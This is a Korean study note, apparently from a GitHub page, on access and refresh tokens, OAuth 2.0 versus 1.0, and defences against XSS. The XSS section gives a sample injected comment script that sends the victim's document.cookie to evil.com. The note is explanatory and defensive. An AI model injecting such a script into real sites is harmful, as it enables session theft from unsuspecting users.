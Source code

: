 ### Access Token

- 서버에 대한 접근 권한을 부여하는 데 사용됩니다.
- 일반적으로 짧은 수명을 가집니다.
- 만료되면 더 이상 유효하지 않으며, 새로운 엑세스 토큰을 발급 받아야 합니다.
- 짧은 수명 덕분에 토큰이 노출되더라도 피해를 최소화 할 수 있습니다.
- 민감한 정보를 포함하지 않으며, 주로 사용자 ID, 권한 범위 등을 포함합니다.

### Refresh Token

- 새로운 엑세스 토큰을 발급 받기 위해 사용됩니다.
- 엑세스 토큰이 만료되었을 때, 클라이언트는 리프레시 토큰을 사용하여 새로운 엑세스 토큰을 요청합니다.
- 일반적으로 긴 수명을 가지고, 서버 측에서만 저장 됩니다.
- 리프레시 토큰이 노출되면 새로운 엑세스 토큰을 발급 받을 수 있기 때문에, 엑세스 토큰보다 안전하게 보관해야 합니다.

## OAuth 2.0

- 애플리케이션에 직접 비밀번호를 공유하지 않더라도 권한을 부여해주는 타 서버에게 사용자가 직접 인증을 수행하고 애플리케이션이 인가를 부여 받는 것을 말합니다.

## OAuth 1.0과의 차이점

대부분 현대 서비스에선 2.0을 사용하고 있다고 합니다.

```java
OAuth 1.0
- 복잡한 서명 과정
- 모바일 지원 어려움
- 단일 서명 방식
- 엑세스 토큰만 있음, 토큰 만료 없음

OAuth 2.0
- 간단한 구현
- 모바일 최적화
- 다양한 인증 방식
- 엑세스 토큰, 리프레시 토큰 사용
- HTTPS 필수이나 HTTPS한테 의존적임
```

## 보안 강화 대책 (XSS, CSRF, 토큰 탈취 방지)

### XXS ( Cross-Site Scripting )

**공격 방식:** 

- 웹 사이트에 악성 스크립트를 삽입하여 다른 사용자의 브라우저에서 실행되게 하는 공격
- 사용자의 세션 탈취, 웹 사이트 변조, 악성 코드 전달 등이 가능

```java
<!-- 댓글에 악성 스크립트 삽입 -->
<script>
  fetch('https://evil.com?cookie=' + document.cookie);
</script>
```
